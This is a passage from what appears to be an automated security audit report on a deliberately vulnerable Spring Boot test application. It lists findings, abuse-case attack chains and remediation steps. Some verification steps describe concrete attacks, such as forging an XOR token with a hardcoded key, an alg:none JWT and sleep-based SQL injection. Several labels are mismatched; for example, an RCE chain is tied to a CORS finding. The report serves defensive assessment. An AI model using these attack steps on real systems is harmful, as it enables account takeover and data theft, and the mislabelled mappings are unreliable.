**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Authorization and Access Control Layer  ·  **Location:** Multiple locations (3)

**Weakness:** [W-003](#w-003) - Authorization is implemented route by route

**Instances (3):** `src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:24`, `src/main/java/com/example/appsecverificationtarget/accesscontrol/UserAccessController.java:22`, `src/main/java/com/example/appsecverificationtarget/authentication/AuthController.java:37`

**Issue:** Any authenticated user can read any other user's order by supplying an arbitrary `id` path variable in `GET /api/orders/{id}`. `OrderAccessController.java:24` calls `customerOrderRepository.findById(id)` and returns the result with no ownership verification.

The endpoint `GET /api/orders/{id}/owned` at line 32 of the same controller performs the correct admin-or-owner check, but the unguarded path at line 24 is also registered and takes precedence for direct `/api/orders/{id}` requests. Full read access to every other user's order records, including order contents and metadata that should be visible only to the order owner or an administrator.

**Evidence:** ✓ verified - The `@GetMapping("/{id}")` handler at `OrderAccessController.java:24` carries no `Authentication` parameter and issues a bare `findById(id)` with no caller-identity constraint, while the sibling `@GetMapping("/{id}/owned")` at line 32 shows what the correct check looks like.

```java
// src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java:24

    @GetMapping("/{id}")
    public ResponseEntity<OrderSummary> get(@PathVariable Long id) {
        return customerOrderRepository.findById(id)
                .map(OrderSummary::from)
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◕ [M-039](#m-039) — Add ownership check to GET /api/orders/{id} handler or remove the unguarded path (`OrderAccessController.java:24`)

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Unrestricted File Type Upload with No Extension or MIME Validation

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:13`

**Issue:** `BusinessFileStorage.store()` performs no validation of the file's content-type or filename extension before writing to disk. An authenticated attacker can upload a JSP web shell as attachment.

While Spring Boot embedded Tomcat does not auto-serve JSP files from arbitrary directories by default, any subsequent misconfiguration that adds a static resource handler over runtime/uploads/, or any admin-level action that moves the file to a served path, would result in server-side code execution. An authenticated attacker can plant executable or malicious content in the server's filesystem, enabling remote code execution if the file reaches a served path, or poisoning file metadata for downstream processing.

**Evidence:** `BusinessFileStorage.java:13-26` contains no allowlist check on `file.getContentType()` or the filename extension extracted from `getOriginalFilename()` before writing the upload to disk.

```java
// src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:13
public class BusinessFileStorage {

    public StoredFile store(String area, Long recordId, MultipartFile file) throws IOException {
        if (file == null || file.isEmpty()) {
            return null;
```

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ◕ [M-040](#m-040) — Enforce an extension and MIME-type allowlist in BusinessFileStorage before writing uploads to disk (`BusinessFileStorage.java:13`)

**Classification:** Insecure File Handling · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Unauthenticated cross-user order lookup via arbitrary email

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - Input Validation and Data Access Layer  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderSearchController.java:24`

**Weakness:** [W-003](#w-003) - Authorization is implemented route by route

**Issue:** GET /api/orders/search?email= accepts any email address and returns that user's orders without requiring the caller to be authenticated as the owner of that email address. `SecurityConfig.java` line 35 permits this endpoint to all callers.

Any unauthenticated attacker who knows or enumerates a target user's email (a low bar given that email is the search key exposed on the same endpoint) can retrieve all orders for that user, including customerComment, attachmentName, totalAmount, and region fields. Any unauthenticated caller can read all orders for any registered user by supplying their email address.

**Evidence:** ✓ verified - `OrderSearchController.java:24` calls orderLookupDao.findByOwnerEmail(email) with the raw request parameter, with no authentication guard and no ownership check against the authenticated principal.

```java
// src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderSearchController.java:24

    @GetMapping("/search")
    public List<OrderSummary> search(@RequestParam String email) {
        return orderLookupDao.findByOwnerEmail(email)
                .stream()
```

**Fix:** ◕ [M-041](#m-041) — Require authentication and enforce owner-only access on GET /api/orders/search (`OrderSearchController.java:24`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Admin Report Endpoint Unauthenticated (SecurityConfig.java:34)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:34`

**Weakness:** [W-003](#w-003) - Authorization is implemented route by route

**Issue:** An attacker sends GET /api/admin/report. `SecurityConfig.java` line 34 explicitly grants permitAll on this endpoint.

`AdminReportController.report()` returns aggregate counts of users, orders, and documents plus per-tenant order status breakdowns from `ReportLookupDao.statusCountsForTenant()`. Any unauthenticated attacker can retrieve aggregate database counts and tenant status breakdowns from what the naming convention marks as an administrative report, leaking internal data model structure.

**Evidence:** ✓ verified - `SecurityConfig.java` line 34 calls `.requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll(),` making an endpoint named 'admin/report' publicly accessible without any authentication or role check.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:34
                        .requestMatchers("/h2-console/**").permitAll()
                        .requestMatchers("/actuator/**").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/orders/search", "/api/orders/status-feed").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/documents/search", "/api/documents/safe-search", "/api/documents/public-feed").permitAll()
```

**Fix:** ◕ [M-042](#m-042) — Restrict /api/admin/report to users with `ROLE_ADMIN` and require authentication (`SecurityConfig.java:34`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · JWT verification does not pin the accepted algorithm

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17`

**Issue:** Verifier accepts attacker-chosen `alg` (e.g. `none` or HMAC-with-public-key), allowing token re-signing without the secret.

**Evidence:** ✓ verified

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17
        Jwt<?, Claims> jwt = Jwts.parserBuilder()
                .build()
                .parseClaimsJwt(token);
        return new LinkedHashMap<>(jwt.getBody());
    }
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ◕ [M-046](#m-046) — Pin accepted JWT verification algorithms (`LegacyJwtVerifier.java:17`)

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

### 🟡 Medium (3)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Deterministic AES/ECB Encryption without IV (LegacyCryptoService.java:17)

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - Cryptography and Token Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:17`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** An attacker who can observe multiple ciphertext outputs from `GET /api/crypto/export-token?value=<input>` exploits the deterministic ECB property: identical 16-byte plaintext blocks always produce identical ciphertext blocks. By submitting carefully chosen inputs, the attacker performs a chosen-plaintext attack to identify block boundaries, detect duplicate values across users, and partially reconstruct sensitive export payloads.

An attacker observing export tokens for related inputs recovers plaintext structure, detects duplicate values across records, and fabricates valid-decryptable export tokens by block rearrangement.

**Evidence:** ✓ verified - `LegacyCryptoService.java:17` instantiates `Cipher.getInstance("AES/ECB/PKCS5Padding")`. No IV is generated or stored; the same plaintext always produces the same ciphertext under the hardcoded key.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ◑ [M-043](#m-043) — Replace AES/ECB with AES/GCM and generate a random IV per encryption (`LegacyCryptoService.java:17`)

**Classification:** Cryptographic Failures · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Dockerfile USER directive (non-root)

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `Dockerfile:1`

**Issue:** Dockerfile USER directive (non-root) in Dockerfile:1. Containers running as root expand container-escape blast radius.

**Evidence:** ✓ verified

**Fix:** ◑ [M-044](#m-044) — Add USER <non-root-uid> (`Dockerfile:1`)

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Unauthenticated public-feed exposes internal storageName and classification fie…

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - Input Validation and Data Access Layer  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/inputvalidation/DocumentSearchController.java:33`

**Issue:** GET /api/documents/public-feed is .permitAll() and returns DocumentSummary records for all documents with tag='public'. The DocumentSummary record (`DocumentSearchController.java:48`–56) includes storageName and classification fields.

Internal file storage paths and classification labels are disclosed to any unauthenticated internet client, enabling targeted storage enumeration and internal reconnaissance.

**Evidence:** `DocumentSearchController.java:48-56` defines DocumentSummary to include storageName and classification, and these are returned by the unauthenticated /api/documents/public-feed endpoint at line 33.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◑ [M-045](#m-045) — Remove storageName and classification from the public-feed DocumentSummary response (`DocumentSearchController.java:33`)

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🔴 Critical | ⚠ Fully viable |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🟠 High | ◐ Partially blocked |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

<a id="ac-t-002"></a>
### AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-042](#f-042) — Unauthenticated cross-user order lookup via arbitrary email (`OrderSearchController.java:24`) | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`) | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ◕ [M-041](#m-041) — Require authentication and enforce owner-only access on GET /api/orders/search (**P2**): remediating 🟠 [F-042](#f-042) — Unauthenticated cross-user order lookup via arbitrary email breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ● [M-013](#m-013) — Replace direct JPA entity binding in PUT /api/profile/me with a restricted DTO that excludes role and admin fields (**P1**): remediating 🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

<a id="ac-t-003"></a>
### AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-048](#f-048) — JWT verification does not pin the accepted algorithm (`LegacyJwtVerifier.java:17`)<br/>`docs/security/.source-auth-findings.json:15` | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | 🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`) | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ◕ [M-046](#m-046) — Pin accepted JWT verification algorithms (**P2**): remediating 🟠 [F-048](#f-048) — JWT verification does not pin the accepted algorithm breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ● [M-014](#m-014) — Remove `permitAll()` for /api/crypto/** and /api/legacy-crypto/** and require authentication or restrict to ADMIN role (**P1**): remediating 🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

<a id="ac-t-005"></a>
### AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-032](#f-032) — Hardcoded Symmetric Encryption Keys (`LegacyCryptoService.java:13`) | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User (`HomegrownSessionService.java:21`) | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ◕ [M-031](#m-031) — Move all symmetric keys to a secrets manager and inject via environment variables or @Value properties (**P2**): remediating 🟠 [F-032](#f-032) — Hardcoded Symmetric Encryption Keys breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ◕ [M-017](#m-017) — Replace Base64 session token with a cryptographically random opaque token stored server-side (**P2**): remediating 🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

<a id="ac-t-006"></a>
### AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🟠 High · **Verdict:** ◐ Partially blocked

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-018](#f-018) — Permissive CORS Origin Reflection (`CorsPolicyFilter.java:32`) | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ◕ [M-018](#m-018) — Replace substring match in CorsPolicyFilter with an explicit origin allowlist (**P2**): remediating 🟠 [F-018](#f-018) — Permissive CORS Origin Reflection breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### Generic catalog — evaluated, not applicable

_These common abuse-case scenarios from the standard library were checked against this codebase and did not apply. They are listed so the assessment's abuse-case coverage is explicit, not silent._

| Scenario | Source | Why not applicable |
|------------------------------------|---------|----------------------|
| Account Takeover via Stored XSS + Token<br/>Hijacking | mandatory | required signal(s) absent:<br/>has_client_storage |
| Privilege Escalation via Mass-Assignment on<br/>Registration | mandatory | required signal(s) absent: has_registration |

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>● [M-001](#m-001) — Adopt centralized secrets management to eliminate all hardcoded…<br/>● [M-002](#m-002) — Enforce Spring Security default-deny authentication policy across all…<br/>● [M-003](#m-003) — Replace parseClaimsJwt with parseClaimsJws and enforce a signed-token…<br/>● [M-004](#m-004) — Replace XOR token issuance with HMAC-SHA256 or JWT RS256 signed with a…<br/>● [M-005](#m-005) — Replace string-concatenated SQL in authenticateRaw with a…<br/>● [M-006](#m-006) — Replace string-concatenated native queries with parameterized queries…<br/>● [M-007](#m-007) — Eliminate shell interpolation in ToolController by passing arguments…<br/>● [M-008](#m-008) — Remove the /api/legacy-sqlite/users endpoint and migrate SQLite…<br/>● [M-009](#m-009) — Remove the plaintext password recovery from the API response and…<br/>● [M-010](#m-010) — Canonicalize and jail the resolved path inside runtime/documents/…<br/>● [M-011](#m-011) — Restrict Actuator endpoints to internal network and require…<br/>● [M-012](#m-012) — Remove hardcoded secrets from Dockerfile and inject at runtime from a…<br/>● [M-013](#m-013) — Replace direct JPA entity binding in PUT /api/profile/me with a…<br/>● [M-014](#m-014) — Remove `permitAll()` for /api/crypto/** and /api/legacy-crypto/** and…<br/>● [M-015](#m-015) — Disable H2 console in production and restrict it to localhost in…<br/>● [M-016](#m-016) — Disable the H2 console in production and remove its permitAll…<br/>◕ [M-017](#m-017) — Replace Base64 session token with a cryptographically random opaque…<br/>◕ [M-018](#m-018) — Replace substring match in CorsPolicyFilter with an explicit origin…<br/>◕ [M-019](#m-019) — Re-enable Spring Security CSRF and configure SameSite=Strict on…<br/>◕ [M-020](#m-020) — Use an authenticated cipher (AES-GCM) from a vetted library; never a…<br/>◕ [M-021](#m-021) — Replace `java.util.Random` with `java.security.SecureRandom` in…<br/>◕ [M-022](#m-022) — Sanitize the upload filename and verify the resolved write path stays…<br/>◕ [M-023](#m-023) — Remove world-writable permissions and run the JVM as a non-root user…<br/>◕ [M-024](#m-024) — Harden DocumentBuilderFactory in XmlPreviewController to disable…<br/>◕ [M-025](#m-025) — Validate and allowlist target URLs before issuing HTTP requests in…<br/>◕ [M-026](#m-026) — Add structured security-event logging to all authorization decision…<br/>◕ [M-027](#m-027) — Restrict GET /api/admin/report to `ROLE_ADMIN` with @PreAuthorize and…<br/>◕ [M-028](#m-028) — Remove CredentialLoggingFilter entirely; if login tracing is needed…<br/>◕ [M-029](#m-029) — Remove the MD5 hash from AppUser storage; rely solely on Spring…<br/>◕ [M-030](#m-030) — Pin base image to @sha256:`<digest>`<br/>◕ [M-031](#m-031) — Move all symmetric keys to a secrets manager and inject via…<br/>◕ [M-032](#m-032) — Replace MD5 with BCrypt in LegacyPasswordService.hashForAudit and…<br/>◕ [M-033](#m-033) — Hash all passwords with bcrypt before storing them in the SQLite…<br/>◕ [M-034](#m-034) — Remove the password field from the LegacySqliteUser API response and…<br/>◕ [M-035](#m-035) — Exclude runtime/ credential stores from the Docker build context and…<br/>◕ [M-036](#m-036) — Restrict POST /legacy/admin/users/{id}/delete to `ROLE_ADMIN` or remove…<br/>◕ [M-037](#m-037) — Add per-IP and per-account rate limiting on all authentication…<br/>◕ [M-038](#m-038) — Add a file size guard and rate limiting to the /api/files/read endpoint<br/>◕ [M-039](#m-039) — Add ownership check to GET /api/orders/{id} handler or remove the…<br/>◕ [M-040](#m-040) — Enforce an extension and MIME-type allowlist in BusinessFileStorage…<br/>◕ [M-041](#m-041) — Require authentication and enforce owner-only access on GET…<br/>◕ [M-042](#m-042) — Restrict /api/admin/report to users with `ROLE_ADMIN` and require…<br/>◕ [M-046](#m-046) — Pin accepted JWT verification algorithms<br/>◑ [M-043](#m-043) — Replace AES/ECB with AES/GCM and generate a random IV per encryption<br/>◑ [M-044](#m-044) — Add USER `<non-root-uid>`<br/>◑ [M-045](#m-045) — Remove storageName and classification from the public-feed…

### P1 — Immediate

<a id="m-001"></a>
#### M-001 — Adopt centralized secrets management to eliminate all hardcoded credentials

**Addresses:**

- 🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints (`OrderSearchController.java:24`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderSearchController.java:24`

**How:**

1. Add Bucket4j or spring-boot-starter-cache-based rate limiting: configure a filter or HandlerInterceptor that allows at most 20 requests per IP per minute on `/api/orders/search` and `/api/documents/search`.
2. Set a JDBC query timeout on the EntityManager for these operations: `entityManager.createNativeQuery(sql, ...)`.`setHint("jakarta.persistence.query.timeout", 3000)` (3-second timeout) so that slow-query injection payloads terminate before draining the connection pool.
3. Consider moving both endpoints behind authentication (see 🔴 [F-042](#f-042) and the document endpoint) as this eliminates the unauthenticated DoS surface entirely.
4. Configure HikariCP's `connectionTimeout` and `idleTimeout` in `application.properties` to limit the blast radius if the pool is exhausted: `spring.datasource.hikari.connection`-timeout=5000, `spring.datasource.hikari.maximum`-pool-size=10.

**Verification:** Using a load-testing tool (e.g., Apache Bench), send 100 concurrent requests to `/api/orders/search`?email=x. Confirm the application responds to other endpoints without degradation. With sleep-based injection payloads, confirm individual queries are terminated after 3 seconds.

**Reference:** [CWE-400: Uncontrolled Resource Consumption](https://cwe.mitre.org/data/definitions/400.html)

---

<a id="m-002"></a>
#### M-002 — Enforce Spring Security default-deny authentication policy across all endpoints

**Addresses:**

- 🔴 [F-002](#f-002) — Missing Authentication for Critical Function (`LegacyAdminBoardController.java:29`)

**Weaknesses addressed:** [W-001](#w-001)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:29`

**How:**

1. Remove the `requestMatchers("/legacy/admin", "/legacy/admin/**").permitAll()` line from `SecurityConfig.java:41` and replace it with `.requestMatchers("/legacy/admin/**").hasRole('ADMIN')` to enforce authentication and role authorization.
2. If the legacy board is no longer in use, delete `LegacyAdminBoardController.java` and its associated Thymeleaf template to eliminate the attack surface entirely.
3. Re-enable CSRF protection for non-API paths (or at minimum for the legacy admin board's POST endpoints) since `SecurityConfig.java:28` globally disables CSRF.
4. Add an integration test confirming that `POST /legacy/admin/users/1/promote` from an unauthenticated session returns HTTP 401 or 403.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:29`: it applies **Enforce Spring Security default-deny authentication policy across all endpoints**. The ordered steps above remain authoritative._

```javascript
// SecurityConfig.java — replace:
// .requestMatchers("/legacy/admin", "/legacy/admin/**").permitAll()
// With:
.requestMatchers("/legacy/admin/**").hasRole("ADMIN")
```

**Verification:** Send `POST /legacy/admin/users/1/promote` from an unauthenticated session. Expect HTTP 401 or 403. Confirm user 1's admin flag is unchanged by querying the database directly.

**Reference:** [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

<a id="m-003"></a>
#### M-003 — Replace parseClaimsJwt with parseClaimsJws and enforce a signed-token allowlist in LegacyAdminAuditController

**Addresses:**

- 🔴 [F-003](#f-003) — Insecure JWT Verification (`LegacyJwtVerifier.java:15`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15`

**How:**

1. In LegacyJwtVerifier, replace `Jwts.parserBuilder()`.`build()`.`parseClaimsJwt(token)` with `Jwts.parserBuilder()`.`setSigningKey(key)`.`build()`.`parseClaimsJws(token)`, supplying the same HMAC key used during issuance.
2. Remove or gate the `/api/legacy-admin/audit` endpoint behind Spring Security's .`authenticated()` rule in SecurityConfig rather than relying solely on a JWT claim for authorization.
3. Add an explicit algorithm allowlist (SignatureAlgorithm.HS256 or RS256) so alg:none tokens are rejected at the parser level.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15`: it applies **Replace parseClaimsJwt with parseClaimsJws and enforce a signed-token allowlist in LegacyAdminAuditController**. The ordered steps above remain authoritative._

```javascript
// Before (LegacyJwtVerifier.java:15) — accepts unsigned tokens:
Jwts.parserBuilder().build().parseClaimsJwt(token);

// After — requires valid HS256 signature:
Jwts.parserBuilder()
    .setSigningKey(signingKey)               // same key used at issuance
    .build()
    .parseClaimsJws(token)                   // 's' = signed; rejects alg:none
```

**Verification:** Issue `GET /api/legacy-admin/audit?token=eyJh`**** (JWT, alg:none PoC) with an unsigned JWT - the endpoint must return HTTP 401 or 403, never 200.

**Reference:** [CWE-347: Improper Verification of Cryptographic Signature](https://cwe.mitre.org/data/definitions/347.html)

---

<a id="m-004"></a>
#### M-004 — Replace XOR token issuance with HMAC-SHA256 or JWT RS256 signed with a rotatable secret

**Addresses:**

- 🔴 [F-004](#f-004) — Forgeable Custom Authentication Tokens (`HomegrownCipher.java:8`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:8`

**How:**

1. Remove HomegrownCipher and `CustomCryptoService.issueToken()`. Replace with `io.jsonwebtoken:jjwt-api` (JJWT) or Spring Security OAuth2 JWT support.
2. Generate a 256-bit signing key via `Keys.secretKeyFor(SignatureAlgorithm.HS256)` and store it in a secrets manager (AWS Secrets Manager, HashiCorp Vault) - never in source.
3. Issue tokens with `Jwts.builder().subject(subject).expiration(Date).signWith(key, SIG.HS256).compact()` and verify with `Jwts.parser().verifyWith(key).build().parseSignedClaims(token).getPayload().getSubject()`.
4. Remove the `/api/legacy-crypto/token` and `/api/legacy-crypto/whoami` endpoints from the public surface, or gate them behind ADMIN authentication.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:8`: it applies **Replace XOR token issuance with HMAC-SHA256 or JWT RS256 signed with a rotatable secret**. The ordered steps above remain authoritative._

```javascript
// Before — XOR with hardcoded key, trivially forgeable
private static final byte[] KEY = "orderdesk-legacy-key".getBytes(UTF_8); // public literal
return cipher.encode("v1:" + subject); // attacker replicates offline

// After — HMAC-signed JWT, key from secrets manager
@Value("${jwt.signing.secret}")
private String signingSecret;

public String issueToken(String subject) {
    SecretKey key = Keys.hmacShaKeyFor(signingSecret.getBytes(UTF_8));
    return Jwts.builder().subject(subject)
        .expiration(new Date(System.currentTimeMillis() + 3_600_000L))
        .signWith(key).compact();
}
```

**Verification:** Forge a token by XOR-encoding `v1:admin` with `orderdesk-legacy-key`, call `GET /api/legacy-crypto/whoami?token=<forged>`. Before fix: returns `{"subject":"admin"}`. After fix: returns HTTP 401 or signature-verification error.

**Reference:** [CWE-321: Use of Hard-coded Cryptographic Key](https://cwe.mitre.org/data/definitions/321.html)

---

<a id="m-005"></a>
#### M-005 — Replace string-concatenated SQL in authenticateRaw with a PreparedStatement

**Addresses:**

- 🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64`

**How:**

1. Replace the String-concatenation query in `LegacySqliteUserStore.authenticateRaw()` with a PreparedStatement identical to the existing `authenticate()` method - use `statement.setString(1, username)` and `statement.setString(2, password)`.
2. Remove the `GET /api/legacy-sqlite/login-raw` endpoint from LegacySqliteAuthController if the raw path serves no legitimate purpose, or gate it behind authentication in SecurityConfig.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64`: it applies **Replace string-concatenated SQL in authenticateRaw with a PreparedStatement**. The ordered steps above remain authoritative._

```javascript
// Before (LegacySqliteUserStore.java:64):
